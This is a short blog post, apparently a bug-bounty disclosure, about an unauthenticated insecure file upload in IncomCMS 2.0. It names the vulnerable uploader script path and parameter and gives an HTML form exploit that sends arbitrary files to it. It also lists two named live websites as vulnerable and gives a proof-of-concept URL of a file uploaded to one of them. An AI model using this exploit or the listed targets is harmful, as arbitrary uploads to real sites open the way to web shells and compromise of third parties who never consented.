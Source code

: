 ```yaml
---
layout: post
title:  "IncomCMS 2.0 insecure files upload"
description: IncomCMS 2.0 is vulnerable to insecure files upload
tags: exploits bugbounty
---
```

  Hi there!, I've discovered endpoint that accepts any file and upload it without any validation or even being authentication 


### Vulnerable endpoint/script : `site.com/incom/modules/uploader/showcase/script.php`
  
  
### Vulnerability type : `Insecure file upload`
  
  
### Tested on : `IncomCMS 2.0 old versions probably vulnerable too `
  
### Uploader parameter : `Filedata`  
  
### Live websites : 
```
http://mzgesheft.kz/incom/modules/uploader/showcase/script.php
http://mekom.kz/incom/modules/uploader/showcase/script.php
```

### HTML exploit : 

```html
<!DOCTYPE html>
<html>
<head>
  <title>Upload your files</title>
</head>
<body>
  <form enctype="multipart/form-data" action="http://www.example.com/incom/modules/uploader/showcase/script.php" method="POST">
    <p>Upload your file</p>
    <input type="file" name="Filedata"></input><br />
    <input type="submit" value="Upload"></input>
  </form>
</body>
</html>

```

###  POCs  : `http://mzgesheft.kz/upload/userfiles/image/cve.png`
  


	
	
Thanks for reading this.

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
